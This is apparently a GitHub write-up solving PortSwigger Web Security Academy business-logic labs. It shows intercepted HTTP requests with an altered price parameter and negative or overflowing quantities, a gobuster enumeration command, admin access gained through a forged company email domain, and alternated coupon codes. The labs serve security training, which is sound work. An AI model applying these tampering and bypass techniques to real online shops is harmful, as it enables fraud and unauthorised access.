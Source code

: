 # Business logic vulnerabilities


<details>
  <summary>Lab: Excessive trust in client-side controls</summary>

1. login using ``wiener:peter``
2. navigate ``home`` page and select product
3. Click ``add to cart`` with intercept the request

```http
POST /cart HTTP/1.1
Host: 0a43003003147e1c811880e3005d006f.web-security-academy.net
Cookie: session=4kC0DYbpfMKStrmFfEaBoLoLBYYPDH5K
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: https://0a43003003147e1c811880e3005d006f.web-security-academy.net
Referer: https://0a43003003147e1c811880e3005d006f.web-security-academy.net/product?productId=17
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive



productId=17&redir=PRODUCT&quantity=1&price=4817
```



set ``price`` to ``1``

```url
productId=17&redir=PRODUCT&quantity=1&price=1
```

back to cart and cilck ``place order``

![image](https://github.com/user-attachments/assets/2b7dbfc5-e7ed-4038-b01e-bb46220eaa69)



  
</details>







<details>
  <summary>Lab: High-level logic vulnerability</summary>

1. login using ``wiener:peter``
2. navigate ``home`` page and select product
3. Click ``add to cart`` with intercept the request

```http
POST /cart HTTP/1.1
Host: 0a43003003147e1c811880e3005d006f.web-security-academy.net
Cookie: session=4kC0DYbpfMKStrmFfEaBoLoLBYYPDH5K
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: https://0a43003003147e1c811880e3005d006f.web-security-academy.net
Referer: https://0a43003003147e1c811880e3005d006f.web-security-academy.net/product?productId=17
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive



productId=1&redir=PRODUCT&quantity=1
```

Notice that there is not ``price`` parameter but there is ``quantity`` try to put it with negative:

```url
productId=1&redir=PRODUCT&quantity=-1
```
notice that the price also became negative

![image](https://github.com/user-attachments/assets/b198bffa-1368-4b26-b5c1-5901bdd4fc4f)

if you click ``place order`` this error appear

```http
Cart total price cannot be less than zero
```

> ### now try to shoose cheep product and add it more than one time with negative and add the wanted product just one time with positive:

![image](https://github.com/user-attachments/assets/4a57f6fa-320e-400f-9596-54e2305cf0f3)


  
</details>










<details>
  <summary>Lab: Inconsistent security controls</summary>

1. after doing enumration

```
gobuster dir -u https://0a4800b704e8549d827179ca0018004d.web-security-academy.net -w /home/kali/Downloads/wordlists/directory-list-2.3-medium.txt 
```
![image](https://github.com/user-attachments/assets/25a10fc0-e937-49c5-9888-c7c06a2ce3b5)

2. try to navigate ``/amdin`` found

![image](https://github.com/user-attachments/assets/ae0455f2-bc54-4b03-ada3-65bfddb111bf)

```
Admin interface only available if logged in as a DontWannaCry user 
```

3. when rigester found this note

```http
If you work for DontWannaCry, please use your @dontwannacry.com email address
```

4. after rigester change ``email`` to ``anyname@dontwannacry.com``

![image](https://github.com/user-attachments/assets/e42e3404-ed42-4b35-b3f6-00c66de07a09)
  
6. now you have acccess to ``/admin``
7. delete ``carlos``

  
</details>








<details>
  <summary>Lab: Flawed enforcement of business rules</summary>


1. login using ``wiener:peter``
2. noties that there is coupon code

![image](https://github.com/user-attachments/assets/33b61cbd-4518-483e-aa65-708598452798)

```
NEWCUST5
```

3. At the bottom of the page, sign up to the newsletter. You receive another coupon code, ``SIGNUP30``.
> ### 4. try applying the codes more than once. Notice that if you enter the same code twice in a row, it is rejected because the coupon has already been applied. However, if you alternate between the two codes, you can bypass this control. 

![image](https://github.com/user-attachments/assets/e559ab83-5443-4e58-a997-690205f73749)

5. click ``place order``


  
</details>














<details>
  <summary>Lab: Low-level logic flaw</summary>


1. login using ``wiener:peter``
2. navigate ``home`` page and select product
3. Click ``add to cart`` with intercept the request
4. if you add a larg number of `quantity` the ``price`` will happend ``integer overflow`` and it will count from negtive

```http
POST /cart HTTP/2
Host: 0a4f008503c158c382ac42ea00130067.web-security-academy.net
Cookie: session=F1AyWAioFLqVDYMZxyMuY0MDZzrYqBcj
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://0a4f008503c158c382ac42ea00130067.web-security-academy.net
Referer: https://0a4f008503c158c382ac42ea00130067.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers



productId=1&redir=PRODUCT&quantity=90
```

5. you need   ``2147483647 / 133700 = ~16061 `` jacked
6. you will send this request ``162`` time

```url
productId=1&redir=PRODUCT&quantity=99
```

![image](https://github.com/user-attachments/assets/aaf9f3d3-dd79-4038-9aec-f36de6ade157)

![image](https://github.com/user-attachments/assets/d7e834db-2b69-4c2b-b9a9-642b59ab67c3)

7. now try to buy cheep product more than one time until reach ``small positive`` price
8. now click ``place order``



  
</details>













<details>
  <summary>Lab: Inconsistent handling of exceptional input</summary>



  
</details>


















